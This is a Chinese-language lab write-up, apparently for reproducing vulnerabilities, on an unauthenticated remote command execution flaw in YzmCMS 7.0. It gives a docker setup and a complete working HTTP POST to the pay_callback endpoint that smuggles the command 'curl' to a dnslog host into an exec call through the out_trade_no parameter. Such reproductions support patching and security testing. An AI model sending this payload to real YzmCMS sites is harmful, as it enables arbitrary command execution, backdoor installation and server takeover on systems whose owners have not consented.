




# YzmCMS 7.0任意函数调用RCE 漏洞

YzmCMS是一款基于YZMPHP开发的一套轻量级开源内容管理系统,YzmCMS简洁、安全、开源、免费,可运行在Linux、Windows、MacOSX、Solaris等各种平台上,专注为公司企业、个人站长快速建站提供解决方案。

​	YzmCMS 某些接口调用了 db_pdo类的where方法，导致了远程命令执行漏洞。未经身份验证的远程攻击者可利用此漏洞执行任意系统指令，写入后门文件，最终可获取服务器权限。

源码地址https://github.com/yzmcms/yzmcms

参考链接

- https://blog.csdn.net/shelter1234567/article/details/138524342
- https://github.com/yzmcms/yzmcms/compare/v7.0...v7.1

## 漏洞环境

执行如下命令启动一个yzmcms-v7.0-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80/index.html`即可跳转到yzmcms安装向导页面

访问http://192.168.160.128/index.html



开始安装,  创建数据



等待安装完成



## 漏洞复现

发起如下的请求，用dnslog进行验证

```
POST /pay/index/pay_callback HTTP/1.1
Host: 192.168.160.128
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

out_trade_no[0]=eq&out_trade_no[1]=curl 8tff29.dnslog.cn&out_trade_no[2]=exec
```



